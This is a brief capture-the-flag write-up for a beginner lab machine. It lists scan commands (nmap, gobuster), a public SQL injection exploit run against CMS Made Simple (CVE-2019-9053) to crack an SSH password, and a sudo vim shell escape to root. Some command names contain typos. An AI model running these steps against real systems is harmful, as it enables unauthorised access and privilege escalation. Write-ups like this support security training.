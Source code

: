 # Simple CTF

> Beginner level ctf

<br>

Process:
- 1) port scan machine:
  - `nmap -T4 <ip>`
  - number of services found running under port 1000: **2**
- 2) aggressive (service) scan ports:
  - `nmap -T4 -p 21,80,2222 <ip>`
  - service running on the higher port: **ssh**
- 3) enumerate futher:
  - enumerate port 80:
    - find hidden directories:
      - `gobuster dir -u http://10.10.117.232 -w <wordlist>`
      - found: /simple
      - search for files:
        - `gobuster dir -u http://10.10.117.232 -w <wordlist> -x php,txt,back,conf`
        - found:
          - ...
    - `searchploit cms made simple 2.2.8`
      - found: 
        - "CMS Made Simple < 2.2.10 - SQL injection | php/webapps/46625.py"
  - CVE's to use against app: **CVE-2019-9053**
  - what kind of vulernability app is vulnerable to: **CVE-2019-9053**
  - app vulernable to: **SQLi**
- 4) use exploit found:
  - install necessary python modules:
    - `python2 pip -m isnstall <module>`
  - run exploit:
    - `python2 46635.py -u http://10.10.117.232/simple --crack -w <wordlist>`
  - found:
    - username = mitch
    - password = **secret**
- 5) login to ssh:
  - `ssh mitch@10.10.117.232 -p 2222` -> [secret]
- 6) post exploitation:
  - get user flag:
    - `cat user.txt` -> **G00d j0b, keep up!**
  - find other users:
    - `ls /home` -> **sunbath**
  - find a way to spawn a privileged shell:
    - `sudo -l` -> /usr/bin/vim can be run as root 
    - `vim` -> `:!/bin/bash` to get a root shell
  - get root flag:
    - `cat /root/root.txt` -> **W3ll d0n3. You made it!**